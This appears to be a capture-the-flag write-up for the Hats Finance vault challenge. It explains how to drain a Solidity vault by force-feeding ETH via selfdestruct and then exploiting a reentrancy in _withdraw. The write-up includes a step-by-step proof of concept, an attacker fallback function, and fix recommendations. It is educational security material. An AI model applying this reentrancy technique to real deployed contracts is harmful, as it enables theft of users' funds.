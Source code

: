 # hats-finance-ctf2-vault-challenge

## The Hats Challenge

The [`Vault.sol`](https://github.com/hats-finance/vault-game/blob/main/contracts/Vault.sol) is deployed with the contract owning 1 ETH of the shares.

Your mission is to capture the flag by emptying the vault, then calling `captureTheFlag` with an address you control to prove that you have succeeded in completing the challenge, so that `vault.flagHolder` returns your address.

Link to challenge: https://github.com/hats-finance/vault-game

## Solution

Vault has a vulnerable `_withdraw` function that may be reentered to drain the contract of all assets. 

This exploit relies on chaining two vulnerabilities together.
1. Increasing the balance of `vault.totalAssets()` without minting additional shares by force feeding the Vault ETH via `selfdestruct`.
2. Exploiting a reentrancy in `_withdraw` to send the `vault.owner()` the `excessETH`.

```solidity
    function _withdraw(
        address caller,
        address payable receiver,
        address _owner,
        uint256 amount
    ) internal virtual {

	if (caller != _owner) {
        _spendAllowance(_owner, caller, amount);
    }

    uint256 excessETH = totalAssets() - totalSupply(); // @audit selfdestruct may be used to increase totalAssets without increasing totalSupply
        
    _burn(_owner, amount);
    
    Address.sendValue(receiver, amount); // @audit reentrant call
    if (excessETH > 0) {
        Address.sendValue(payable(owner()), excessETH);
    }

    emit Withdraw(caller, receiver, _owner, amount, amount);
}
```

## Proof of concept
1. Attacker funds and deploys an expendable contract with 1 ETH and calls `expendableContract.selfdestruct(vaultAddress)` which deletes the expendable contract and forces the `vaultAddress` to accept the 1 ETH even though it has no `fallback` or `receive` functions. 
   
   By using `selfdestruct` the ETH is deposited in the Vault without calling `deposit` or `mint`, which **bypasses the minting of shares**, this has the effect of raising `totalAssets()` > `totalSupply()` (ie amount of assets (ETH) is > amount of shares). This is a problem since shares and assets are **supposed to be minted at a ratio of 1:1 in this vault**.
   
   Now when `uint256 excessETH = totalAssets() - totalSupply()` is calculated in `vault._withdraw()` this is the result:
 ```solidity
 uint256 excessETH = totalAssets() - totalSupply();
 // totalAssets() == 2 ETH
 // totalSupply() == 1 ETH worth of shares
 // excessETH == 1 ETH
 ```

2. The attacker then calls `vault.mint` and mints 1 ETH worth of shares to the attacker. The resulting balances are now:
 ```solidity
 uint256 excessETH = totalAssets() - totalSupply();
 // totalAssets() == 3 ETH
 // totalSupply() == 2 ETH worth of shares
 // excessETH == 1 ETH
 // 
 // attacker has 1 ETH of shares
 // contract has 1 ETH of shares
 ```

3. Attacker redeems 0.5 ETH worth of shares with  `vault.redeem` which calls `vault._withdraw` to send ETH to the attacker using `Address.sendValue(receiver, amount).

```solidity
    function _withdraw(
        address caller,
        address payable receiver,
        address _owner,
        uint256 amount
    ) internal virtual {
        if (caller != _owner) {
            _spendAllowance(_owner, caller, amount);
        }

        uint256 excessETH = totalAssets() - totalSupply(); 
        
        _burn(_owner, amount);
        
        Address.sendValue(receiver, amount); // @audit reentrant call which allows the attacker to run arbitrary code in their fallback function
        
        if (excessETH > 0) {
            Address.sendValue(payable(owner()), excessETH);
        }

        emit Withdraw(caller, receiver, _owner, amount, amount);
}
```

4. The attacker's contract contains a fallback function, triggered by recieving ETH, which calls `vault.redeem` to redeem the other half of their shares.

```solidity
fallback() external payable {
        emit ReceivedETH(msg.sender, msg.value);
        uint256 withdrawAmount = ERC4626ETH(vault).maxWithdraw(exploiter);

        if (withdrawAmount > 0) {
            ERC4626ETH(vault).redeem(withdrawAmount, exploiter, exploiter);
        }
}
```

5. The attackers fallback above will call `vault.redeem` which will call  `vault._withdraw` and send the attacker the other half of ETH assets per their shares. So the attacker recieves 0.5 ETH on the first call, and 0.5 ETH on the reentrant call for a total of 1 ETH.
 
6. However, because of the reentrancy the code below is executed twice with `excessETH == 1 ETH`.  This sends the `Vault.owner()` 1 more ETH than they are owed per their share of the Vault.
```solidity
if (excessETH > 0) {
    Address.sendValue(payable(owner()), excessETH); //sends excessETH to deployer which is the owner of contract
}
```

The two reentrant calls will each send 1 ETH to `owner()` which leaves the Vault with 0 assets and 1 ETH worth of shares.

## Recommendations

There are a few ways to fix this issue. 

1. Use a nonReentrant modifier on the `deposit` and `mint` functions. This will prevent an attacker from reentering the `_withdraw` function upon recieving ETH.
2. Remove the  `excessETH` check from the `_withdraw` function. Write a separate function to allow the `vault.owner()` to remove excess Ether. This fix has the additional benefit of saving users gas by removing a wasteful if statement from the `_withdraw` function.
3. Move  `uint256 excessETH = totalAssets() - totalSupply()` below `Address.sendValue(receiver, amount)`. This ensures `excessETH` is set after the reentrant `Address.sendValue` call.
